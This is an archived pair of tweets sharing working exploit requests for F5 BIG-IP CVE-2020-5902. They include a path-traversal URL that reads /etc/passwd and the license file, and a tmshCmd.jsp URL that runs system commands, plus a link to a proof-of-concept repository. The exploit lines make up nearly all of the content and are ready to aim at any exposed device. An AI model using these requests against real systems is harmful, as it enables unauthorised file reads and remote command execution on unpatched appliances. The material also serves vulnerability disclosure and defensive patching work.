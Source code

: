 
# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at 2020-07-06, 06:57:28_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at 2020-07-06, 05:20:49_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td><img src="pictures/611272c2afba979dc36b025766004ca29b76335136e96c226aa5d62755c5ab82.jpg" alt="611272c2afba979dc36b025766004ca29b76335136e96c226aa5d62755c5ab82.jpg"></td>
</table></tr>